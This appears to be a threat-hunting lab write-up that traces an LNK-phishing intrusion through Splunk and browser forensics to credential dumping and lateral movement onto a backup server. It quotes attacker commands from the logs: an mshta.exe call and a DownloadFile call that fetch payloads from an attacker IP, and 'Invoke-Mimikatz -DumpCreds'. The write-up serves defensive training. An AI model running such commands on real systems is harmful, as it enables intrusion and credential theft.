









---
hide:
  - toc
---

<div class="soc-hero">

# 🏹 Task 6: Zero Tolerance

<div class="soc-pill-row" style="margin-bottom: 1.2rem;">
  <span class="soc-pill">Alert: Credential Dumping</span>
  <span class="soc-pill">Vector: LNK Phishing</span>
  <span class="soc-pill">Tactic: Lateral Movement</span>
</div>

<span class="soc-muted">
A complete threat hunt across the network. We identified an initial compromise via a malicious LNK file, tracked the attacker's use of LOLBins (mshta.exe), and uncovered a sophisticated exfiltration script targeting backup servers.
</span>

</div>

!!! failure "🚨 Incident Scope"
    **Trigger:** Splunk detected suspicious PowerShell execution and AV tampering attempts.
    
    **Beachhead Host:** `JP-BROWN-WS`
    **Attacker C2:** `10.10.14.174`
    
    **Investigation Goal:** Reconstruct the attack chain from the initial download to the final data exfiltration.

---

## 🎣 Phase 1: Initial Access (Spearphishing)

The investigation began by identifying *how* the attacker gained a foothold. We analyzed host activity and browser forensics.

=== "1. Host Identification"
    **Query:** We started by identifying the top hosts generating Sysmon events to pinpoint the beachhead.
    
    **Result:** `JP-BROWN-WS` accounts for 72% of the traffic, making it our primary suspect.
    
    

=== "2. Browser Forensics"
    **Tool:** SQLite Viewer
    **Evidence:** Analyzing the browser's `Downloads` database revealed a suspicious LNK file download.
    
    * **File:** `TravisClart_Resume.pdf.lnk`
    * **Path:** `C:\Users\jp.brown\Downloads\`
    
    

=== "3. Splunk Verification"
    **Query:** `index=* *TravisClart_Resume*`
    
    Splunk confirmed the creation of the file on disk.
    
    

=== "4. MITRE Context"
    **Technique:** T1204.002 (Malicious File)
    
    The attacker relies on the user executing a file disguised as a resume to initiate the infection chain.
    
    

---

## 📡 Phase 2: Execution & C2

Once the user clicked the file, the attacker executed code to establish a connection.

=== "1. The LOLBin (Mshta)"
    **Technique:** T1218.005 (Mshta)
    
    The LNK file triggered a "Living-off-the-Land" binary to execute a remote script from memory.
    
    **Command:**
    ```powershell
    "C:\Windows\System32\mshta.exe" [http://10.10.14.174:80/KsWLx.hta](http://10.10.14.174:80/KsWLx.hta)
    ```
    
    

=== "2. C2 Download"
    **Masquerading:** The attacker downloaded a payload named `RuntimeBroker.exe` to `C:\Windows\Temp`.
    
    **Splunk Log:**
    ```text
    DownloadFile('[http://10.10.14.174:80/RuntimeBroker.exe](http://10.10.14.174:80/RuntimeBroker.exe)', 'C:\Windows\Temp\RuntimeBroker.exe')
    ```
    
    

---

## 🔐 Phase 3: Credential Access

With persistence established, the attacker attempted to dump credentials to pivot deeper into the network.

=== "1. Mimikatz Detection"
    **Alert:** We detected multiple command lines referencing `Invoke-Mimikatz`.
    
    **Stats:** The logs show a clear spike in `mimikatz.exe` and `cmd.exe` activity.
    
    

=== "2. Command Analysis"
    **Specific Command:**
    ```powershell
    Invoke-Mimikatz -DumpCreds
    ```
    
    This command dumps plain-text passwords and hashes from memory (LSASS).
    
    

---

## 📤 Phase 4: Lateral Movement

Finally, the attacker moved from `JP-BROWN-WS` to the backup server `BKUP-SRV01`.

=== "1. Pivot to Backup"
    **Target Host:** `BKUP-SRV01`
    
    The logs show the attacker executing commands on the backup server, indicating successful lateral movement.
    
    

=== "2. Exfiltration Script"
    **Script:** `C:\Windows\Temp\Setup-BackupServer.ps1`
    
    The attacker used this custom script to target sensitive file extensions (`.bak`, `.sql`, `.mdb`) and stage them in a temporary DAT file:
    `C:\Users\bkup-svc\AppData\Local\Temp\sysbackup_20251114.dat`

---

## 🛡️ Case Verdict

<div class="soc-grid">
  <div class="soc-card soc-case soc-accent-red">
    <div class="soc-card-body">
      <div class="soc-card-title">Major Breach Confirmed</div>
      <ul>
        <li><strong>Attacker C2:</strong> 10.10.14.174</li>
        <li><strong>Lateral Move:</strong> JP-BROWN-WS &rarr; Backup Svc</li>
        <li><strong>Data Risk:</strong> Full Database Dump Staged</li>
      </ul>
    </div>
  </div>

  <div class="soc-card soc-case soc-accent-green">
    <div class="soc-card-body">
      <div class="soc-card-title">Containment Plan</div>
      <ul>
        <li>Isolate <code>JP-BROWN-WS</code> immediately.</li>
        <li>Reset <code>bkup-svc</code> service account credentials.</li>
        <li>Block traffic to <code>10.10.14.174</code>.</li>
      </ul>
    </div>
  </div>
</div>

<br>
<center>
  <a href="../task-5-Portal-Drop/" class="soc-btn">← Previous: Task 5</a>
  <a href="../../" class="soc-btn soc-btn-secondary">Return to Dashboard</a>
</center>